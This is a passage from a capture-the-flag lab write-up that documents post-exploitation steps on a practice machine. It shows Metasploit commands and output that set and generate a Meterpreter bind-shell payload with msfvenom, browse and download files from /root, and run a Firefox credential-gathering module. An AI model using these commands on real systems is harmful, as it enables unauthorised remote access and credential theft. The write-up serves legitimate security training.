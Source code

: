 ```shell_session
msf exploit(handler) > set payload linux/x86/meterpreter/bind_tcp
payload => linux/x86/meterpreter/bind_tcp
msf exploit(handler) > set RHOST 192.168.122.122
RHOST => 192.168.122.122
```

```shell_session
root@kali:~# msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=192.168.128.128 LPORT=5555 -f elf > warluigi_bind.elf
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 110 bytes
Final size of elf file: 194 bytes
```

## Finding & Cracking the Last Flag
After getting the Meterpreter session, I took a look in `/root` as per the previous host, and found a file named `.hint.txt` and another ZIP file that seemingly contained a flag:

```shell_session
meterpreter > ls /root
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  0     fil   2017-03-15 19:48:47 +0000  .bash_history
100644/rw-r--r--  3106  fil   2014-02-20 02:43:56 +0000  .bashrc
100644/rw-r--r--  148   fil   2017-03-10 20:47:50 +0000  .hint.txt
40700/rwx------   4096  dir   2017-03-10 16:55:59 +0000  .mozilla
100644/rw-r--r--  140   fil   2014-02-20 02:43:56 +0000  .profile
100600/rw-------  0     fil   2017-03-15 14:14:10 +0000  .viminfo
100644/rw-r--r--  401   fil   2017-03-15 14:10:05 +0000  flag2.zip

meterpreter > download flag2.zip
[*] downloading: flag2.zip -> flag2.zip
[*] download   : flag2.zip -> flag2.zip

```

The hint file contained another message about Princess Peach:

> So, today I saw her again, Peach. I'm so in love for her but my brother is completely lost for her.
I know that he loves Peach, but Peach Loves Me.

Also within the `/root` directory was a `.mozilla` directory, suggesting that the machine may have FireFox data on it, which led me to run the `firefox_creds` post module, but it returned nothing:

```shell_session
meterpreter > run post/multi/gather/firefox_creds

[*] Checking for Firefox profile in: /root/.mozilla/firefox
[*] Checking for Firefox profile in: /home/nagios/.mozilla/firefox
[*] Checking for Firefox profile in: /home/warluigi/.mozilla/firefox
[-] No users found with a Firefox directory
```
Next, I dumped the user hashes, as I'd have to crack these to finish the challenge anyway:
